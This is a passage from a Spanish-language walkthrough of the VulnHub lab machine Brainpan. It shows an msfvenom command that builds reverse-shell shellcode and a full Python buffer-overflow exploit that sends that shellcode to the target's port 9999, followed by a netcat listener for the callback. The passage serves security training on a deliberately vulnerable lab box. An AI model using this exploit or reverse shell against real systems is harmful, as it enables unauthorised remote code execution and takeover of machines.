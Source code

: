 ```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.14 LPORT=4444 EXITFUNC=thread -f python -v shellcode -b '\x00'
```

Nuestro exploit final es el siguiente:

```python
#!/usr/bin/env python3

import socket

ip = "192.168.1.10" # Asignamos la IP de la máquina Brainpan
port = 9999

offset = 524
before_eip = b"A" * offset
eip = b"\xf3\x12\x17\x31"

shellcode =  b""
shellcode += b"\xdb\xcf\xd9\x74\x24\xf4\xbb\x01\x95\xe8\x78"
shellcode += b"\x5a\x31\xc9\xb1\x12\x31\x5a\x17\x03\x5a\x17"
shellcode += b"\x83\xc3\x91\x0a\x8d\xf2\x42\x3d\x8d\xa7\x37"
shellcode += b"\x91\x38\x45\x31\xf4\x0d\x2f\x8c\x77\xfe\xf6"
shellcode += b"\xbe\x47\xcc\x88\xf6\xce\x37\xe0\xc8\x99\xc9"
shellcode += b"\xfe\xa0\xdb\xc9\xef\x6c\x55\x28\xbf\xeb\x35"
shellcode += b"\xfa\xec\x40\xb6\x75\xf3\x6a\x39\xd7\x9b\x1a"
shellcode += b"\x15\xab\x33\x8b\x46\x64\xa1\x22\x10\x99\x77"
shellcode += b"\xe6\xab\xbf\xc7\x03\x61\xbf"

after_eip = b"\x90" * 32 + shellcode

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("[+] Enviando shellcode...")
    s.send(payload + b"\r\n")
    print("[+] Conectado!")
except:
    print("[!] No ha sido posible conectarse")
```
{: file="exploit.py" }

Establecemos un listener con netcat por el puerto `4444`.

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-35.png)
_Establecemos un listener con nc_
